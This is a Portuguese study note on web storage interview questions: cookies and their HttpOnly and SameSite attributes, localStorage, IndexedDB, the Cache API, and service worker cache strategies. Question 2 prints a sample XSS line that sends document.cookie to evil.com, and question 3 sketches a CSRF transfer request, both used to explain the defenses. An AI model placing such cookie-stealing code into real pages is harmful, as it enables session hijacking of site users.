

# Storage em entrevista

> [!abstract] TL;DR
> Capstone do galho Storage. As perguntas mais frequentes em entrevista são: a tabela comparativa (cookies/localStorage/sessionStorage/IndexedDB/Cache API), por que cookies têm HttpOnly, como funciona offline-first, e as estratégias de cache de Service Worker. O detalhe que diferencia candidatos: saber *quando* usar cada um, não só a API.

---

## Mapa do galho Storage



---

## Top 10 — perguntas de entrevista

### 1. Quando você usaria localStorage vs cookie vs IndexedDB?

```
Cookie:        sessão/auth token que precisa ir ao servidor; preferir HttpOnly
localStorage:  preferências simples de UI, token de app (SPA sem SSR), < 5MB
sessionStorage: wizard multi-step, dados de sessão que não devem persistir
IndexedDB:     catálogo offline, rascunhos, histórico, dados estruturados grandes
Cache API:     assets HTML/CSS/JS para offline, respostas de API cacheadas
```

---

### 2. Por que o atributo `HttpOnly` em cookies protege contra XSS?

Sem `HttpOnly`, um script malicioso pode ler o session token:

```javascript
// ❌ Sem HttpOnly — XSS pode roubar o cookie
document.cookie; // "session=abc123; other=val"
// Atacante exfiltra para servidor próprio via fetch
fetch('https://evil.com/steal?data=' + encodeURIComponent(document.cookie));
```

Com `HttpOnly`, o browser recusa que JavaScript leia o cookie — mesmo código executado na página não consegue. O token só vai ao servidor nos headers HTTP.

---

### 3. O que `SameSite=Lax` faz? Por que é o padrão dos browsers modernos?

`SameSite=Lax` bloqueia o cookie em requests cross-site silenciosos (fetch, img src, AJAX) mas permite em navegação top-level (o usuário clica num link). Isso previne CSRF:

```
Site malicioso faz: fetch('https://bank.com/transfer?to=evil&amount=1000')
→ Com SameSite=Lax: cookie do banco NÃO é enviado → CSRF falha
→ Usuário clicando em link para bank.com → cookie enviado → funciona normalmente
```

Browsers modernos usam `Lax` como padrão. `Strict` bloqueia até navegação top-level (mais seguro, menos usável). `None` exige `Secure` e envia em tudo (cookies de terceiros/tracking).

---

### 4. O que é `response.clone()` e por que é necessário antes de salvar no cache?

A Response é um stream — pode ser lida apenas uma vez. Se você passa diretamente para `cache.put()` e também usa a response para renderizar, uma das duas vai falhar (stream já consumida).

```javascript
// ❌ Problema: response lida duas vezes
const response = await fetch('/api/data');
await cache.put('/api/data', response);    // consome o stream
const data = await response.json();        // erro: body já foi lido!

// ✅ Clonar antes de cachear
const response = await fetch('/api/data');
await cache.put('/api/data', response.clone()); // cache recebe cópia
const data = await response.json();             // original consumida aqui
```

---

### 5. Qual a diferença entre Cache First e Network First?

| | Cache First | Network First |
|---|---|---|
| Prioridade | Cache → Rede (se cache miss) | Rede → Cache (se offline) |
| Latência | Baixa (sem esperar rede) | Alta (aguarda resposta da rede) |
| Freshness | Baixa (pode servir stale) | Alta (sempre tenta rede) |
| Melhor para | JS/CSS/imagens estáticos | Dados de API, HTML |

**Stale-While-Revalidate**: serve cache imediatamente (latência baixa) e atualiza em background (próxima visita recebe dados frescos) — melhor dos dois mundos para dados que mudam mas aceitam staleness de uma visita.

---

### 6. Como funciona o ciclo de vida do Service Worker em relação ao cache?

```
1. install  → baixar e cachear assets estáticos (event.waitUntil)
2. activate → limpar caches antigos (event.waitUntil)
3. fetch    → interceptar requests, servir do cache ou rede
```

`skipWaiting()` no install faz o SW ativo imediatamente (sem esperar as abas existentes fecharem). `clients.claim()` no activate faz o SW novo assumir controle de abas já abertas.

---

### 7. O que é o evento `storage`? Quando ele é disparado?

```javascript
window.addEventListener('storage', (event) => { ... });
```

Dispara em **outras abas** da mesma origem quando `localStorage` muda. **Não dispara** na aba que fez a mudança. Útil para sincronizar estado entre abas abertas (ex: logout em uma aba aparece em todas).

Para comunicação bidirecional entre abas mais robusta, use BroadcastChannel (Workers 02).

---

### 8. Como você implementaria um cache offline de catálogo de produtos?

Combinação IndexedDB + Service Worker:

```javascript
// No Service Worker: cache assets estáticos (Cache First)
// Para API de produtos: Network First com fallback IndexedDB

self.addEventListener('fetch', (event) => {
  if (!event.request.url.includes('/api/products')) return;
  
  event.respondWith(
    fetch(event.request)
      .then(async response => {
        const data = await response.clone().json();
        // Salvar no IndexedDB para acesso offline
        await db.put('products', data);
        return response;
      })
      .catch(async () => {
        // Offline: ler do IndexedDB
        const cached = await db.getAll('products');
        return new Response(JSON.stringify(cached), {
          headers: { 'Content-Type': 'application/json' }
        });
      })
  );
});
```

---

### 9. Qual a diferença entre `add()` e `put()` no IndexedDB?

- `add()`: insere novo registro. Falha se a chave já existir (`ConstraintError`)
- `put()`: upsert — insere ou substitui se a chave já existir

```javascript
await db.add('users', { id: 1, name: 'Alice' }); // ok
await db.add('users', { id: 1, name: 'Bob' });   // ConstraintError!

await db.put('users', { id: 1, name: 'Bob' });   // ok — substitui Alice
```

---

### 10. Como você evitaria vazar dados sensíveis para o localStorage?

Nunca guardar em localStorage:
- Tokens de autenticação (se SSR: cookie HttpOnly; se SPA: memory ou sessionStorage)
- Dados pessoais sensíveis (CPF, cartão)
- Chaves de API privadas

localStorage persiste até o usuário limpar — qualquer script na origem pode ler. Em XSS, um script malicioso varre todo o localStorage.

Para sessões de SPA: token em `sessionStorage` (limpa ao fechar) ou em memória (variável de módulo — limpa ao recarregar). Para autenticação crítica com SSR: cookie `HttpOnly + Secure + SameSite=Lax`.

---

## Armadilhas clássicas

| Armadilha | Problema | Solução |
|---|---|---|
| `localStorage.setItem('x', {})` | Salva `[object Object]` | `JSON.stringify` + `JSON.parse` |
| localStorage em Safari privado | Quota exceeded exception | try/catch em todo acesso |
| `cache.put(req, response)` sem clone | Stream consumida duas vezes | `response.clone()` antes de cachear |
| IndexedDB sem transaction | Impossible — API sempre exige | Sempre usar `db.transaction()` |
| SW sem limpar caches antigos no `activate` | Caches crescem indefinidamente | Filtrar e deletar caches com nome desatualizado |
| `document.cookie` para ler token | Vulnerável a XSS | Usar cookie `HttpOnly` (JS não lê) |
| sessionStorage compartilhado entre abas | Falso — é isolado por aba | Usar localStorage ou BroadcastChannel para compartilhar |
| add() com chave duplicada | ConstraintError silencioso | Verificar ou usar put() para upsert |

---

## Veja também

- [[03-Dominios/Tecnologia/Plataforma Web/Storage/03 - Cache API e offline-first|03 — Cache API e offline-first]] — anterior
- [[03-Dominios/Tecnologia/Plataforma Web/Storage/index|Storage — índice]]
- [[03-Dominios/Tecnologia/Plataforma Web/Workers/index|G6 — Workers]] — próximo galho; Service Worker em detalhe
